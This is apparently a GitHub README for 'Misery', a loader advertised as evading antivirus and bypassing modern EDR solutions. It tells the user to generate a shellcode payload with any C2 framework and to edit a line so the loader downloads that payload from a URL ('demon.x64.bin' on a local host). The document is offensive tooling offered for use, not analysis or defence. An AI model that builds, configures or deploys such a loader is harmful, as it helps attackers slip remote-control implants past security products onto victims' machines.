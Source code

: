 # Misery (🪙 Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)


### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



